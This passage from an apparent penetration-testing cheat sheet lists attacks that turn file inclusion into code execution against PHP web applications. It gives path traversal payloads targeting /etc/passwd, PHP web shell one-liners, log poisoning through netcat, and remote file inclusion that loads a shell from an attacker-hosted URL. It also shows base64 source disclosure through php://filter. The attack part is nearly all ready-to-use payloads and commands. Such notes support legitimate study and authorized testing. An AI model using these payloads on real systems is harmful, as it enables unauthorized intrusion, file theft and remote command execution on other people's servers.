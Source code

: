 		req.params["0"].split("../").join("")  ->  ....//....//....//....//....//etc//passwd
		../../../../../boot.ini%00.jpg
		../../../../../etc/passwd%0a.jpg
		../../../../../etc/passwd%00
    LFI TO RCE:
    	PHP Filter Chains - If you entirely control the string passed to Require or Include:
			https://github.com/synacktiv/php_filter_chain_generator
			ex. python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>'
			ex. python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]` ?>'
        Log poisoning
            See what logs you can include, then figure out how to get that service to log your request
            ex. log into ftp server with user of '<? php system($_GET['cmd']); ?>' , then lfi the var/log/vsftpd.log
            /var/log/apache2/access.log:   `nc 1.1.1.1 80, then GET /<?php system($_GET['cmd']);?>`
            /proc/self/environ: use burp (https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1) to send malicious url with a modified user-agent
            Windows: `?file=c:\xampp\apache\logs\access.log&cmd=ipconfig   nc -nv 1.1.1.1 80 ,   <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`
            Email method:  https://bitvijays.github.io/LFC-VulnerableMachines.html
            LFI log contamination tactic: connect w/:  nc -nv 10.11.0.22 80, then send:  <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
            	then:  http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
    RFI:
    	ex. make and host a local evil.txt file:  <?php echo shell_exec($_GET['cmd']); ?>
                http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt&cmd=ipconfig
        Try shell saved as .txt, .php, etc. - see what type of scripts the site uses
        works if allow_url_fopen and allow_url_include both = On in the file /etc/php5/cgi/php.ini -- php.ini location is seen in phpinfo.php file
		Even if off: possible through SMB in some PHP versions!
        ex. Using reverse.txt php shell:  `?page=http://1.2.3.4/reverse.txt?  OR:  ?page=http://1.2.3.4/reverse.txt%00`
	
	PHP Execution:
		?code=phpinfo()
		?code=system('id'); (if single line output)
		?code=echo shell_exec('/sbin/ifconfig eth0'); (if multiple line output)
 	Manual Log Poisoning:
		Injection Test:
			<?php echo 'system: '; system('whoami'); system($_REQUEST['cmd']); ?><br/>
			<?php echo 'exec: '; echo exec('whoami'); echo exec($_REQUEST['cmd']); ?><br/>
			<?php echo 'shell_exec: '; shell_exec("whoami"); shell_exec($_REQUEST['cmd']); ?><br/>
			<?php echo 'passthru: '; passthru("whoami"); passthru($_REQUEST['cmd']);?>
		Enumeration:
			Dir Walk:  Request parameter: <?php echo print_r(scandir($_GET['dir'])); ?>
				Then access:  curl ...&dir=.
			File Read:  <?php include($_GET['file']);?>
				PHP files:  curl ...&file=php://filter/convert.base64-encode/resource=admin.php
		Write File:  ex. <?php $f = "MHhkZiB3..."; file_put_contents("HACKED.txt", base64_decode($f)); ?>
 
## Cross-Site Scripting (XSS):  
